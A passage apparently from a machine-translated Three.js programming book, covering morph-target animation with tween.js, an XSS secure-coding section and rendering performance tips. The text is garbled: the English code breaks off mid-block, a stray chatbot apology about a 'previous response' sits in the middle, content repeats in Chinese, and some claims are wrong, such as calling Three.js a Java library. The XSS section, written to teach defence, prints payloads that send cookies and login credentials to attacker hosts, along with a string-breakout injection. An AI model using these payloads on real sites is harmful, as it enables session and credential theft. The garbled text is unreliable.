Now we need to adjust how the various data sets are shown and hidden. We need to change the morph targets' influence instead of showing or hiding a mesh. We need an influence of 1 for the data set we want to see, and a zero for the ones we don't want to see.

We could simply change them to 0 or 1, but that would result in no animation; it would simply snap, which would be identical to what we now have. We could develop our own animation code, which would be simple, but because the original webgl globe utilizes an animation library, we'll stick with it.

The library must be included.

```javascript
import * as THREE from '/build/three.module.js';
import * as BufferGeometryUtils from '/examples/jsm/utils/BufferGeometryUtils.js';
import {OrbitControls} from '/examples/jsm/controls/OrbitControls.js';
import {TWEEN} from '/examples/jsm/libs/tween.min.js';
```

Then, to animate the influences, make a Tween.

```javascript
// show the selected data, hide the rest
function showFileregistration(fileInfos, fileInfo) {
  const targets = {};
```

```javascript
fileInfos.forEach((info, i) => {
    const visible = fileInfo === info;
    info.elem.className = visible ? 'selected' : '';
    targets[i] = visible ? 1 : 0;
});
const durationInMs = 1000;
new TWEEN.Tween(mesh.morphTargetInfluences)
    .to(targets, durationInMs)
    .start();
requestRenderIfNotRequested();
}
```

TWEEN is also supposed to be called. Update every frame within our render loop, but this highlights a flaw. “tween.js” is intended for continuous rendering; however, we’re using it for on-demand rendering. We might shift to perpetual drawing, but rendering on demand is sometimes more handy because it saves electricity when nothing is happening, so let’s see if we can make it animate on demand.

To assist, we’ll create a TweenManager. It will be used to create and track Tweens. It will contain an update method that returns true if we need to call it again and false if all of the animations have completed.

```javascript
class TweenManager {
    constructor() {
        this.numTweensRunning = 0;
    }
    _handleComplete() {
        --this.numTweensRunning;
        console.assert(this.numTweensRunning >= 0);
    }
    createTween(targetObject) {
        const self = this;
        ++this.numTweensRunning;
        let userCompleteFn = () => {};
        // install our own onComplete callback in a new tween
        const tween = new TWEEN.Tween(targetObject).
            onComplete(function(...args) {
                self._handleComplete();
                userCompleteFn.call(this, ...args);
            });
```

```javascript
// displace the tween's onComplete function itself
// so that if the user provides a callback, we may call it
  tween.onComplete = (fn) => {
    PS: I'm sorry, but I noticed the previous response was incorrect and contained untranslated content. Let me provide the correct translation:

[content]
```javascript
fileInfos.forEach((info) => {
  const div = document.createElement('div');
  info.elem = div;
  div.textContent = info.name;
  uiElem.appendChild(div);
  function show() {
    showFileInfo(fileInfos, info);
  }
  div.addEventListener('mouseover', show);
  div.addEventListener('touchstart', show);
});
// 显示第一组数据
showFileInfo(fileInfos, fileInfos[0]);
```

我们在上面为每个数据集创建了几何体，将第一个作为基础，然后从每个几何体中提取位置属性，并将其作为变形目标（morph target）添加到基础几何体的位置中。

现在我们需要调整各个数据集的显示和隐藏方式。我们需要改变变形目标的影响值，而不是显示或隐藏网格。对于想要看到的数据集，影响值需要为 1；对于不想看到的，影响值为 0。

我们可以简单地将它们改为 0 或 1，但那样就不会有动画效果；它会直接跳变，这与我们现在的效果相同。我们可以编写自己的动画代码，这很简单，但由于原始的 webgl globe 使用了动画库，所以我们继续使用它。

需要先引入该库。

```javascript
import * as THREE from '/build/three.module.js';
import * as BufferGeometryUtils from '/examples/jsm/utils/BufferGeometryUtils.js';
import {OrbitControls} from '/examples/jsm/controls/OrbitControls.js';
import {TWEEN} from '/examples/jsm/libs/tween.min.js';
```

然后，为了对影响值进行动画处理，创建一个 Tween。

```javascript
// 显示选中的数据，隐藏其余数据
function showFileInfo(fileInfos, fileInfo) {
  const targets = {};
```

```javascript
fileInfos.forEach((info, i) => {
    const visible = fileInfo === info;
    info.elem.className = visible ? 'selected' : '';
    targets[i] = visible ? 1 : 0;
});
const durationInMs = 1000;
new TWEEN.Tween(mesh.morphTargetInfluences)
    .to(targets, durationInMs)
    .start();
requestRenderIfNotRequested();
}
```

还需要在渲染循环的每一帧中调用 TWEEN.update()，但这暴露了一个问题。"tween.js" 是为连续渲染设计的；然而我们使用的是按需渲染。我们可以切换到持续绘制，但按需渲染有时更方便，因为当没有任何变化时可以节省电量，所以我们来看看能否让它实现按需动画。

为此，我们将创建一个 TweenManager。它将用于创建和跟踪 Tweens。它包含一个 update 方法，如果还需要再次调用则返回 true，如果所有动画都已完成则返回 false。

```javascript
class TweenManager {
    constructor() {
        this.numTweensRunning = 0;
    }
    _handleComplete() {
        --this.numTweensRunning;
        console.assert(this.numTweensRunning >= 0);
    }
    createTween(targetObject) {
        const self = this;
        ++this.numTweensRunning;
        let userCompleteFn = () => {};
        // 在我们自己的新 tween 中安装自定义的 onComplete 回调
        const tween = new TWEEN.Tween(targetObject).
            onComplete(function(...args) {
                self._handleComplete();
                userCompleteFn.call(this, ...args);
            });
```

```javascript
// 替换 tween 的 onComplete 函数本身
// 这样如果用户提供了回调，我们就可以调用它
  tween.onComplete = (fn) => {
    userCompleteFn = fn;
    return tween;
  };
  return tween;
}
update() {
  TWEEN.update();
  return this.numTweensRunning > 0;
}
}
```

我们将创建一个实例来使用它。

```javascript
function main() {
  const canvas = document.querySelector('#c');
  const renderer = new THREE.WebGLRenderer({canvas});
  const tweenManager = new TweenManager();
...
```

我们将用它来创建我们的 Tweens。

```javascript
// 显示选中的数据，隐藏其余数据
function showFileInfo(fileInfos, fileInfo) {
  const targets = {};
  fileInfos.forEach((info, i) => {
    const visible = fileInfo === info;
    info.elem.className = visible?  'selected' : '';
    targets[i] = visible?  1 : 0;
  });
  const durationInMs = 1000;
  tweenManager.createTween(mesh.morphTargetInfluences)
    .to(targets, durationInMs)
    .start();
  requestRenderIfNotRequested();
}
```

然后，如果仍有动画在进行，我们将更新渲染循环以更新 tweens 并继续渲染。

```javascript
function render() {
    renderRequested = false;
    if (resizeRendererToDisplaySize(renderer)) {
        const canvas = renderer.domElement;
        camera.aspect = canvas.clientWidth / canvas.clientHeight;
        camera.updateProjectionMatrix();
    }
    if (tweenManager.update()) {
        requestRenderIfNotRequested();
    }
    controls.update();
    renderer.render(scene, camera);
}
render();
```

这看起来可以工作了，但是我们丢失了颜色。Three.js 不支持变形目标颜色，原始的 webgl globe 也有这个问题。它本质上只为第一个数据集创建颜色。任何额外的数据集，无论差异多大，都使用相同的颜色。来看看我们能否添加颜色变形支持。这可能比较脆弱。虽然编写我们自己的着色器是最不容易出错的选择，但我认为学习如何修改内置着色器会有所帮助。

第一步是让代码从每个数据集的几何体中提取颜色作为 BufferAttribute。

```javascript
// 使用第一个几何体作为基础
// 并将所有几何体添加为变形目标
const baseGeometry = geometries[0];
baseGeometry.morphAttributes.position = geometries.map((geometry, ndx) => {
    const attribute = geometry.getAttribute('position');
    const name = `target${ndx}`;
    attribute.name = name;
    return attribute;
});
```

```javascript
const colorAttributes = geometries.map((geometry, ndx) => {
  const attribute = geometry.getAttribute('color');
  const name = `morphColor${ndx}`;
  attribute.name = `color${ndx}`;  // 仅用于调试
  return {name, attribute};
});
const material = new THREE.MeshBasicMaterial({
  vertexColors: true,
});
```

然后需要修改 Three.js 的着色器。我们可以将函数赋给 Three.js 材质中的 `Material.onBeforeCompile` 属性。它允许我们在将材质着色器传递给 WebGL 之前对其进行修改。实际上，所提供的是 Three.js 特有的着色器语法，包含许多着色器代码块（shader chunks），Three.js 会将每个代码块替换为实际的 GLSL 代码。传递给 `onBeforeCompile` 的未经过修改的顶点着色器代码如下所示。

```glsl
#include <common>
#include <uv_pars_vertex>
#include <uv2_pars_vertex>
#include <envmap_pars_vertex>
#include <color_pars_vertex>
#include <fog_pars_vertex>
#include <morphtarget_pars_vertex>
#include <skinning_pars_vertex>
#include <logdepthbuf_pars_vertex>
#include <clipping_planes_pars_vertex>
void main() {
    #include <uv_vertex>
    #include <uv2_vertex>
    #include <color_vertex>
    #include <skinbase_vertex>
    #ifdef USE_ENVMAP
    #include <beginnormal_vertex>
    #include <morphnormal_vertex>
    #include <skinnormal_vertex>
    #include <defaultnormal_vertex>
    #endif
```

```glsl
#include <begin_vertex>
#include <morphtarget_vertex>
#include <skinning_vertex>
#include <project_vertex>
#include <logdepthbuf_vertex>
#include <worldpos_vertex>
#include <clipping_planes_vertex>
#include <envmap_vertex>
#include <fog_vertex>
}
```

查看剩余的代码块后，我们想要替换 `morphtarget_pars_vertex` 代码块、`morphnormal_vertex` 代码块、`morphtarget_vertex` 代码块，以及 `color_vertex` 代码块。

为此，我们将创建一个简单的替换数组，并使用 `onBeforeCompile` 来应用它们。

```javascript
const material = new THREE.MeshBasicMaterial({
  vertexColors: true,
});
const vertexShaderReplacements = [
  {
    from: '#include <morphtarget_pars_vertex>',
    to: '
      uniform float morphTargetInfluences[8];
    ',
  },
  {
    from: '#include <morphnormal_vertex>',
    to: '
    ',
  },
  {
    from: '#include <morphtarget_vertex>',
    to: '
      transformed += (morphTarget0 - position) * morphTargetInfluences[0];
      transformed += (morphTarget1 - position) * morphTargetInfluences[1];
      transformed += (morphTarget2 - position) * morphTargetInfluences[2];
```


```
 transformed += (morphTarget3 - position) * morphTargetInfluences[3];
',
},
{
  from: '#include <color_pars_vertex>',
  to: `
    varying vec3 vColor;
    attribute vec3 morphColor0;
    attribute vec3 morphColor1;
    attribute vec3 morphColor2;
    attribute vec3 morphColor3;
  `,
},
{
  from: '#include <color_vertex>',
  to: `
    vColor.xyz = morphColor0 * morphTargetInfluences[0] +
                 morphColor1 * morphTargetInfluences[1] +
                 morphColor2 * morphTargetInfluences[2] +
                 morphColor3 * morphTargetInfluences[3];
  `,
},
];
material.onBeforeCompile = (shader) => {
  vertexShaderReplacements.forEach((rep) => {
    shader.vertexShader = shader.vertexShader.replace(rep.from, rep.to);
  });
};
```

Three.js 还会对变形目标（morph targets）进行排序，并且仅使用影响力最强的那些。只要一次只使用少数几个，就可以使用数量更多的变形目标。遗憾的是，目前没有办法通过 Three.js 来确定将使用多少个变形目标，或者这些变形目标将被赋予哪些属性。因此，我们需要深入研究代码以了解其运行机制。如果 Three.js 的算法发生变化，我们将需要重构这部分代码。

我们首先删除所有颜色属性。即使之前没有添加它们也没关系，因为删除一个尚未引入的属性是安全的。

```
const mesh = new THREE.Mesh(baseGeometry, material);
scene.add(mesh);
function updateMorphTargets() {
  // remove color features
  for (const {name} of colorAttributes) {
    baseGeometry.deleteAttribute(name);
  }
  // We can't query this in three.js, so we'll have to
  // guess and hope it doesn't change.
  const maxInfluences = 10;

  // We'll have to speculate because three doesn't
  // provide a means to ask which morph parameters this
  // will employ and which properties it'll apply them to.
  // We'll have to rewrite this if the algorithm in
  // three.js updates.
  mesh.morphTargetInfluences
    .map((influence, i) => [i, influence]) // map indices to influence
    .sort((c, d) => Math.abs(d[1]) - Math.abs(c[1])) // sort by highest influence first
    .slice(0, maxInfluences) // keep only top influences
    .sort((c, d) => c[0] - d[0]) // sort by index
    .filter(a => !!a[1]) // remove no influence entries
    .forEach(([ndx], i) => { // assign the attributes
      const name = 'morphColor${i}';
      baseGeometry.setAttribute(name, colorAttributes[ndx].attribute);
    });
}
```

这个函数将由 `loadAll` 函数返回。通过这种方式，我们不需要泄露任何变量。

```
async function loadAll() {
  ...

  return updateMorphTargets;
}
// use a no-op update function until the data is ready
let updateMorphTargets = () => {};
loadAll();
loadAll().then(fn => {
  updateMorphTargets = fn;
});
```

最后，在允许补间管理器（tween manager）更改数值之后且在渲染之前，我们必须调用 `updateMorphTargets`。

```
function render() {
  ...
  if (tweenManager.update()) {
    requestRenderIfNotRequested();
  }

  updateMorphTargets();

  controls.update();
  renderer.render(scene, camera);
}
```

至此，颜色和方块都应该能够实现动画效果了。

希望这些信息对你有所帮助。要移动大量对象，你可以使用变形目标，可以通过 Three.js 的服务来实现，也可以实现自己的着色器。例如，我们可以将每个立方体分配到另一个目标中的随机位置，然后将它们变形回在地球上的原始位置。这可能是介绍世界的一种有趣方式。下一步是在地球上添加标签，这将在《将 HTML 元素对齐到 3D》中讨论。

156 ■ 精通 JavaScript：Three.js

## 加固与安全

在过去的几个月里，我一直在研究安全代码实践，并尝试以简单的方式教育社区。每当面对我们每天看到的各种不安全代码时，我们都认同“预防胜于治疗”。确保代码和应用程序安全的最有效方法是从一开始就正确地编写它们。编写安全代码并不难，只需要程序员了解在哪里插入安全检查即可。这仅仅是多写几行代码，但足以保护你的应用程序免受各种威胁。

因此，本期“如何编写安全代码？”将重点讨论跨站脚本（Cross-Site Scripting，简称 XSS）问题。在现代浏览器中，内容安全策略（Content Security Policy）可以显著降低 XSS 攻击的风险和影响。跨站脚本是一种漏洞，攻击者可以通过该漏洞注入未经授权的 JavaScript、VBScript、HTML 或其他活动内容。以这种方式注入页面的内容可以劫持用户的会话、代表用户执行非法活动、窃取机密信息或直接篡改页面。XSS 是当今针对互联网应用程序最具破坏性和最广泛的攻击之一。恶意访问者可以使用 XSS 来操纵你网站上的文本和代码，而这本应仅由你本人执行。

下面的代码是一个 XSS 攻击的示例；输入内容没有经过清洗，而是直接被喂给了参数。

```
String firstNameParameter = (String) request.getParameter("firstName");
```

用户的输入立即被保存到局部变量 `firstNameParameter` 中，且该值在 HTTP 响应中被传输到浏览器，没有任何输出编码。在本章中，我将介绍你日常可能会遇到的几种不同类型的攻击及其方法，以及预防这些攻击的方法。

### 反射型 XSS (XSS Reflection)

对于每个受害者来说，这都是一场悲剧。当恶意负载被发送给受害者时，他们点击恶意 URL，从而使黑客能够访问其 Cookie 和其他数据。下面是一个负载示例，如果由受害者执行，攻击者将可以访问其个人信息。

```
https://mybank.com/submitForm.do?customer=
<script>
function stealCredentials() {
  location.href = "www.sitename.com?name=document.myform.username.value&password=document.myform.pword.value"
}
</script>
// 整个脚本应作为 URL 提供；此处采用这种方式是为了方便阅读。
```

另一种场景是我们访问一个带有密码生成器的网站。乍一看，页面似乎是安全的，因为我们只需要点击“生成密码”按钮。在代理选项卡中，我们启动 burp-suite 并拦截请求。我们将它发送到 repeater 选项卡以仔细检查请求查询和响应查询。我们在下方看到的第一个请求显示，我们在请求查询中提供的用户名被反射在了返回查询中。既然知道用户名会被反射回来，我们现在就可以在值字段中注入我们的负载。剩下的唯一问题就是如何构造负载，以便我们的命令能被正确执行。

```
";catch(e){}alert('injected');try(a=" // 我们的负载
```

### 存储型 XSS (XSS Cache)

当代码被注入到托管的服务器端软件中时，就会发生这种攻击。结果是，每当有人访问特定的网页或链接时，他们都会成为缓存 XSS 攻击的受害者。如果页面上的图像被如此注入，以至于加载的是恶意脚本（如下所示）而不是图片，然后获取用户的 Cookie，那么就可以执行存储型 XSS 攻击。

```
<script>new Image().src="http://myevilhackersite.com/login.cgi?c="+encodeURI(document.cookie);</script>
// 我们的负载
```

## 保护你的代码

我们已经详细讨论了如何利用代码对网站执行有害的 XSS 攻击。应采取以下步骤：

### 输入验证

- 验证应仅在服务器端执行，绝不应在客户端执行。
- 允许用户使用的字符应建立白名单和黑名单。为了提高安全性，我们可以使用正则表达式或基于框架的抗 XSS 方法。
- 代码示例。

不要直接利用并获取 `firstName` 参数。

```
String firstNameParameter = (String) request.getParameter("firstName");
```

在赋值给变量 `firstNameParameter` 之前，使用正则表达式对其进行运行检查。

```
private final String MY_DATAVALIDATION_WHITELIST = "[a-zA-Z]*";

public boolean mustPassWhiteListCheck(String clientSideParameter) throws WhiteListFailureException {
  boolean checkValue = false;
  checkValue = Pattern.matches(MY_DATAVALIDATION_WHITELIST, clientSideParameter);
  if (checkValue == false) {
    throw new WhiteListFailureException("Possible Attack!!!");
  }
  return checkValue;
}
```

### 输出编码

- 中和 HTTP 响应中任何被误读的字符。
- 将字符转换为数据，而不是执行危险程序。


-   URL编码 – 将字符串中的一个或多个字符三元组替换为相应字符。
-   后跟两个其他十六进制整数的百分号，例如，`percent 2e` 代表"."。
-   输出编码的示例代码。
-   以下代码中未进行编码。

```javascript
System.out.println("<HTML><HEAD><BODY>Hello + "
+ request.getParameter("firstName") + "</BODY>
</HTML>");
```

在输入经过正则表达式清理器处理后，我们将在将值传递给打印语句之前对上述代码进行一些小改动。

```javascript
System.out.println("<HTML><HEAD><BODY>Hello + "
+ Encoder().encodeForHTML(sanitisedFirstNameVariable)
+ "</BODY></HTML>");
```

## 输出编码的网页上下文

对于这些值，我们至少必须执行URL编码：

-   HTML文本
-   HTML属性
-   URL
-   JavaScript
-   层叠样式表（CSS）

XSS是一种可以被自动检测到的严重攻击。存储型和反射型XSS会对程序造成严重损害。正确的输入验证和输出编码是防范这些攻击最基本的策略之一。正确实现这两个功能可以帮助我们彻底消除XSS攻击。

## 新手友好建议或帮助：为什么我什么都看不到？

你按照一些基础教程操作，一切都很顺利。现在你在开发自己的应用，完全按照教程步骤来操作，然而你却什么都看不到！这是怎么回事？以下是一些可以帮助排查的建议。

-   在浏览器控制台中查找问题消息。

-   将背景颜色从黑色改为其他颜色。面对空白画布？当你只能看到黑色时，很难判断是否有东西在渲染。尝试将背景色设为红色：

```javascript
import { Color } from "./vendor/three/build/three.module.js";
scene.background = new Color("red");
```

-   至少，如果你看到红色画布，说明你的渲染器在工作。既然渲染调用正常，你就可以集中精力找出其他问题所在。

-   检查你的场景是否有光源以及它是否在照亮你的物体。Three.js中的大多数材质和现实世界一样，需要光线才能可见。

-   使用`MeshBasicMaterial`可以覆盖场景中的所有材质。`MeshBasicMaterial`是一种不需要光线即可可见的材质。如果你在让物体显示方面遇到困难，可以使用`MeshBasicMaterial`临时覆盖场景中的所有材质。如果物体因此神奇地出现了，说明你遇到了光源问题。

```javascript
import { MeshBasicMaterial } from "./vendor/three/build/three.module.js"; 
scene.overrideMaterial = new MeshBasicMaterial({ color: "green" });
```

-   你的物体是否在相机的可视视锥体内？如果不在可视视锥体内，你的物体会被裁剪掉。将远裁剪面设置为尽可能大：

```javascript
camera.far = 100000;
camera.updateProjectionMatrix();
```

-   请注意，这仅用于练习！相机视锥体以米为单位，为了获得最佳效果，你应该将其设置为尽可能小。一旦你的场景运行起来，就尽可能缩小视锥体大小。

-   相机能否看到物体？默认情况下，所有物体都创建在坐标(0, 0, 0)处，通常称为原点。检查你是否将相机向后移动了足够的距离以看到你的场景。

```javascript
camera.position.z = 10;
```

-   考虑你的场景的规模。想象你的场景，记住Three.js中一个单位等于1米。各物体之间的关系是否合理？或者，也许你什么都看不到，因为你刚刚加载的物体只有0.00001米宽。屏幕中央那个小黑点到底是什么？

## 通用提示

-   在JavaScript中创建对象是昂贵的，所以不要在循环中创建对象。相反，创建一个单一对象，例如一个`Vector3`，然后在循环中使用`vector.set()`或类似方法重复使用它。

-   你的渲染循环也是如此。在渲染循环中做尽可能少的工作，以确保你的程序以流畅的60 fps运行。只在必要时创建新对象。

-   始终优先使用`BufferGeometry`而非`Geometry`，因为前者更快。

-   对于预构建对象，应始终使用buffer geometry版本（使用`BoxBufferGeometry`而不是`BoxGeometry`）。

-   始终尽量重用对象、材质、纹理等（尽管更新某些对象可能比创建新对象更慢，请参见下方的纹理提示）。

## 使用国际单位制

JavaScript中 everywhere 都使用国际单位制。你会发现使用国际单位制会让事情更加顺利。如果你必须使用不同类型的单位，比如英寸（想想都头疼），请确保你有充分的理由这样做。

### 国际单位制

-   距离的度量单位是米（1个Three.js单位等于1米）。
-   时间的度量单位是秒。
-   坎德拉（cd）、流明（lm）和勒克斯（lx）是用于度量光照的国际单位制单位（前提是你开启了`renderer.physicallyCorrectLights`）。
-   如果你在制作真正大规模的东西（例如太空模拟），请使用缩放因子或切换到对数深度缓冲区。

### 精确的颜色

使用以下渲染器参数来获得（几乎）精确的颜色：

```javascript
renderer.gammaFactor = 2.2;
renderer.outputEncoding = THREE.sRGBEncoding;
```

对于颜色，请执行以下操作：

```javascript
const color = new Color(0x800080);
color.convertSRGBToLinear();
```

或者，在更常见的材质颜色示例中：

```javascript
const material = new MeshBasicMaterial({ color: 0x800080 });
material.color.convertSRGBToLinear();
```

最后，仅为颜色、环境和自发光贴图设置纹理编码，以获得（几乎）正确的纹理颜色：

```javascript
import { sRGBEncoding } from "./vendor/three/build/three.module.js";
const colorMap = new TextureLoader().load("colorMap.jpg");
colorMap.encoding = sRGBEncoding;
```

所有其他纹理类型应使用线性颜色空间。由于这是默认设置，你无需为颜色、环境和自发光贴图以外的任何纹理更改编码。我说"几乎正确"是因为Three.js的颜色管理目前还不够完善。希望这个问题能很快得到修复，但在此之前，任何颜色错误都会非常细微，除非你在进行科学或医学可视化，否则没有人会注意到。

## JavaScript

网页浏览器使用的JavaScript引擎经常变化，它们会在幕后对你的代码进行大量优化。始终进行测试，不要凭直觉判断什么会更快。不要相信几年前声称你应该避免使用`array.map`或`array.forEach`的文章。亲自尝试一下，或者寻找最近几个月包含完整测试的文章。

## 使用代码检查工具和代码风格指南

个人而言，我结合使用ESLint、Prettier和Airbnb风格指南。按照这份指南（第2部分），我在VSCode中花了大约30分钟完成设置，从此再也不用担心格式化、代码检查或判断某段语法是否合理的问题了。

许多使用Three.js的人更喜欢Mr. doob的Code Style™而不是Airbnb的风格，所以如果你更喜欢前者，只需使用`eslint-config-mdcs`代替`eslint-config-airbnb`即可。

## 模型、网格和可见对象

在交付资源时，避免使用基于文本的3D数据格式，如Wavefront OBJ或COLLADA。相反，应使用对网络友好的格式，如glTF。

使用glTF时，建议使用Draco网格压缩。这有时可以将glTF文件缩小到原始大小的10%以下！

或者，`gltfpack`作为新秀，在某些情况下可能比Draco提供更好的结果。

如果需要让大量物体可见和不可见（或从场景中添加/移除它们），请考虑使用图层。

### 相机

为提高性能，请将视锥体设置得尽可能小。在开发过程中使用大视锥体是可以的，但一旦准备发布应用，应将其尽可能缩小以节省宝贵的每秒帧数。

为消除闪烁，请确保远裁剪面设置正确（特别是当你的远裁剪面很大时）。

### 渲染器

-   如果不需要`preserveDrawingBuffer`，请禁用它。
-   如果不需要alpha缓冲区，请关闭它。
-   如果不需要模板缓冲区，请禁用它。
-   如果不需要深度缓冲区，请关闭它（但你可能确实需要它）。
-   在构造渲染器时，使用`powerPreference: "high-performance"`。在多GPU系统中，这可能会鼓励用户的系统选择高性能GPU。
-   仅当相机位置发生微小变化或有动画时才进行渲染。

如果你的场景是静态的且使用`OrbitControls`，可以监听控制的change事件。这样你可以在相机移动时才渲染场景：

```javascript
OrbitControls.addEventListener("change", () => renderer.render(scene, camera));
```

### 光源

`SpotLight`、`PointLight`、`RectAreaLight`和`DirectionalLight`是直射光的例子。在你的场景中，应尽可能少地使用直射光。

如果你从场景中添加或移除光源，`WebGLRenderer`将不得不重新编译所有着色器程序（它确实会缓存程序，所以后续执行此操作时会比第一次更快）。请改用`light.visible = false`或`light.intensity = 0`。


开启渲染器

`physicallyCorrectLights` 是一组基于 SI 标准的灯光，用于实现精确的照明。

## 阴影

如果你的场景是静态的，不要每帧都更新阴影贴图，而应仅在发生变化时才更新。

- 要可视化阴影相机的视锥体，请使用 `CameraHelper`。
- 尽可能缩小阴影视锥体的大小。
- 尽可能降低阴影纹理的分辨率。

请记住，点光源阴影比其他阴影类型更昂贵，因为它们必须渲染六次（每个方向一次），而 `DirectionalLight`（方向光）和 `SpotLight`（聚光灯）的阴影只需要渲染一次。

既然提到了 `PointLight`（点光源阴影，请记住，当用于显示点光源阴影时，`CameraHelper` 仅显示六个阴影方向中的一个。它仍然有用，但其他五个方向需要一些创意来观察。

## 材质

`MeshLambertMaterial` 不适用于光泽材质，但非常适用于织物等哑光材质，且速度比 `MeshPhongMaterial` 快。

- 如果你使用了变形目标（morph targets），请确保在材质中设置 `morphTargets = true`，否则它们将无法工作。
- 变形法线（morph normals）也是如此。

此外，如果你在使用 `SkinnedMesh` 创建骨骼动画，请确保材质设置正确。

- 蒙皮（Skinning）设置正确。
- 无法在使用了变形目标、变形法线或蒙皮的材质之间进行交换。每个蒙皮或变形网格都需要自己的材质（此时 `material.clone()` 是你的好帮手）。

## 自定义材质

不要每帧更新你的 uniform 变量，仅在它们发生变化时更新。

## 几何体

应避免使用 `LineLoop`，因为它必须由线带（line strip）来模拟。

## 纹理

你所有的纹理必须采用 2 的幂次方格式：1, 2, 4, 8, 16, ..., 512, 2048, ....

不要修改纹理的尺寸。相反，创建新的纹理会更快。

使用尽可能小的纹理尺寸（是否可以使用 256 × 256 的平铺纹理？你可能会惊喜地发现可行！）。

对于非 2 的幂次方（NPOT）纹理，需要使用线性（Linear）或最近邻（closest）过滤，以及 clamp-to-border 或 clamp-to-edge 包裹模式。不支持重复（Repeat）包裹和 mipmap 过滤。但坦率地说，请尽量避免使用 NPOT 纹理。

由于相同尺寸的所有纹理占用相同的内存，JPG 的文件大小可能比 PNG 小，但它在 GPU RAM 中占用的空间是一样的。

## 抗锯齿

由许多彼此平行且细长的直线段组成的几何体是抗锯齿的最糟糕情况。例如金属百叶窗或格子围栏。如果可行，请尽量避免在场景中使用此类几何体。如果没有选择，尝试用纹理替换格子，可能会获得更好的效果。

## 后处理

在使用后处理时，内置的抗锯齿无法工作（至少在 WebGL 1 中）。你必须手动使用 FXAA 或 SMAA（可能会更快、更好）。

因为你没有使用内置的 AA，请确保将其关闭！

Three.js 拥有海量的后处理着色器，这太棒了！但请记住，每个 pass  l都需要重新渲染整个场景。在完成测试后，考虑将你的测试合并到一个自定义 pass 中。这需要更多的工作量，但可以带来显著的性能提升。

## 你想从场景中删除某些东西吗？

首先，请三思而后行，尤其是如果你之后想把它加回来。通过使用对象，你可以暂时隐藏对象。使用 Fake（对灯光同样有效），或者将材质不透明度 `material opacity = 0`。你可以控制灯光，若要禁用灯光而无需重新编译着色器，请使用 `intensity = 0`。

如果你需要永久从场景中删除项目，请先阅读这篇文章：[如何释放对象 (How to Dispose of Objects)](https://threejsfundamentals.org)。

## 性能中的对象设置

对于静态或不经常移动的对象，请设置 `matrixAutoUpdate = false` 并显式调用对象。每当其位置/旋转/四元数/缩放发生变化时，请使用 `updateMatrix()`。

透明项目加载需要时间。在场景中，尽可能少地使用半透明项目。

如果可行，请使用 alpha 通道（alphabets）代替普通透明度，因为速度更快。

在分析应用性能时，首先应验证的是它是受 CPU 限制还是 GPU 限制。使用 `scene`，通过 `materialOverride` 将所有材质替换为基础材质（参见初学者提示和页面开头）。如果应用速度提高，则说明是 GPU 瓶颈；如果性能没有提高，则软件是 CPU 瓶颈。

在高性能 PC 上，进行性能测试时几乎肯定会得到 60 fps 的最高帧率。若要取消帧率限制，请使用 `open -a "Google Chrome" --args --disable-gpu-vsync`。

现代移动设备具有高达 5 的高像素比；将这些设备上的最大像素比限制在 2 或 3。你将获得显著的性能提升，代价是场景会有一点模糊。

通过烘焙灯光和阴影贴图来减少场景中的灯光数量。

密切关注场景中的 draw calls（绘制调用）数量。经验法则是：draw calls 越少 = 性能越好。

远离相机的物体不需要与靠近相机的物体相同级别的信息。有很多通过降低远距离物体质量来提高性能的技巧。考虑使用细节级别（LOD）对象。对于远处的物体，你甚至可以每隔两三帧才更新一次位置/动画，或者用公告板（billboard）——即物体的 2D 图像——来替代。

## 高级技巧

`TriangleFanDrawMode` 非常缓慢。当你拥有数百或数千个相似几何体时，请使用几何体实例化（geometry instancing）。在 GPU 而非 CPU 上对顶点和粒子进行动画处理。

## 总结

在本章中，我们学习了如何以正确且精准的方式编写代码。此外，我们还学习了在编写代码时如何维护安全性，以避免任何信息泄露。最后，我们总结了一些在编写 Three.js 代码时需要牢记的通用技巧。

## 笔记

- 1. [Threejsfundamentals-threejsfundamentals.org](https://threejsfundamentals.org)。
- 2. Three.js 渲染：[https://threejsfundamentals.org/threejs/lessons/fr/threejs-rendering-on-demand.html](https://threejsfundamentals.org/threejs/lessons/fr/threejs-rendering-on-demand.html)。

## 总结

## 本章内容

- React 和 Three.js
- Angular 和 Three.js
- Vue.js 和 Three.js

在上一章中，我们学习了代码的优化以及如何安全地编写代码。此外，我们还讨论了使用 Three.js 编写代码时的通用技巧。

## 使用 Three.js 的职业前景

现在的互联网与几年前截然不同。有些人可能还记得，当时的网站只是由非响应式的、大多基于表格结构的黑、白、灰视图组成的集合。这些网站并不“漂亮”，但它们是“革命性”的。重要的是它们履行了职责。想象一个平台，一个只要有电脑和互联网连接，地球上几乎任何地方的任何人都可以浏览的 Web 应用程序。这不是很简单吗？尽管在当时这很壮观，所以你根本不在意它长什么样。而那才是唯一真正重要的事情。不是华丽的设计、巧妙的动画或其他在当今设计中几乎不可避免的元素，而是作为全球信息载体的能力，简单易用且专注于内容。它们被开发出来是为了指导、广告或简单地将新业务带入互联网。

Three.js 是一个广为人知的跨浏览器 Java 库和应用程序编程接口，用于在 Web 浏览器中创建和显示动画及 3D 图形。这个工具在游戏开发者中非常出名；因此，对于那些对创建不同类型游戏感兴趣的软件开发者来说，它具有很大的职业潜力。有 100 多家公司在技术栈中使用了 Three.js。

## 将 Three.js 与其他框架和库结合使用

在之前的章节中，我们学习了如何在仅有三个文件（index.html, src/main.js, 和 styles/main.css）的简单网页中使用 Three.js。我们使用了这种简单的配置来演示在之前章节中开发的应用程序。

然而，在这些安全且令人安心的环境之外，以这种方式构建的网页已变得越来越罕见。近年来，Web 开发环境蓬勃发展，出现了数百个用于开发 Web 应用的库和框架，如 React、Angular 和 Vue.js，并且不断有新框架出现。

这些框架 each 都有很强的主见，具有不同的设计哲学和范式，以及像 JSX 这样的 JavaScript 扩展。这还没有考虑到像 TypeScript 这样构建在 JavaScript 之上的全新语言。

正如本书之前所述，我们的目标是展示如何创建一个真实的、专业质量的 Three.js 应用程序。在一个框架主导的世界里，在如此简单的网页上展示我们的作品似乎与此相悖。幸运的是，事实并非如此，因为 Three.js 场景始终呈现在一个单一的 HTML `<canvas>` 元素中。

如果你愿意，可以直接在 HTML 中创建此画布：

```html
<canvas id="scene"></canvas>
```

你也可以使用你喜欢的框架（如 React, Vue.js, Svelte，甚至是你自己的自定义框架）创建画布，然后将其传递给 Three.js。大多数 Web 框架的运行方式是通过独立的模块化组件来构建应用。联系表单、下拉菜单或图像库都是 React 组件的例子。同样地，我们将安排我们的 Three.js 应用程序，使其最终形成一个名为 World 的单一顶层组件，用于构建


## 什么是 TypeScript？

